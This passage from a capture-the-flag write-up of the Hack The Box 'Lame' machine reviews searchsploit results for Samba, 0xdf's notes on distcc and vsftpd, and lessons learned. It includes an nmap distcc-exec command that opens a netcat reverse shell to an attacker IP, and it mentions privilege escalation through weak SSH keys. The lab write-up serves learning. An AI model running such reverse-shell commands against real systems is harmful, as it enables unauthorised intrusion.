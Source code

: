 ```
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
[...]
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
[...]
```
I think I missed it because I search for `smb` and not `samba`.
### 0xdf writeup
In 0xdf writeup, there is an explanation on why the exploit for the vsftpd server fails. It seems to be due to the firewall. There is also a demo to check it: https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

There is also a writeup on the distcc exploit that I used: https://0xdf.gitlab.io/2020/04/08/htb-lame-more.html
I like the remote shell command which is more simpler than me:
```
nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.24 443'"
```
There are also multiple ways to get privilege escalation. The first one is by using a vulnerability on how the root SSH key has been generated (see CVE-2008-0166). It makes the key predictible and you can get the private key back from the public key.
I had been a little bit lucky (and helped by the syntax coloration of linpeas.sh) to guess that nmap could be used to get privilege escalation. However, there is the GTFOBins website that can be used to find how to escalate privilege with different binaries: https://gtfobins.github.io/
## Lessons learned
I could break this box so much quickly. I lost time on the Samba server, trying to connect and looking into the files in it. I also missed the distcc open port at first because I focused on the vulnerable FTP server without finishing the enumaration.
In the future:
* I should do a proper enumeration first by looking at the data available and what could be possible to exploit without doing right now,
* I should read carefully the logs of the scan,
* I should search for different names of a service in searchsploit (not only `smb` but also `samba`)
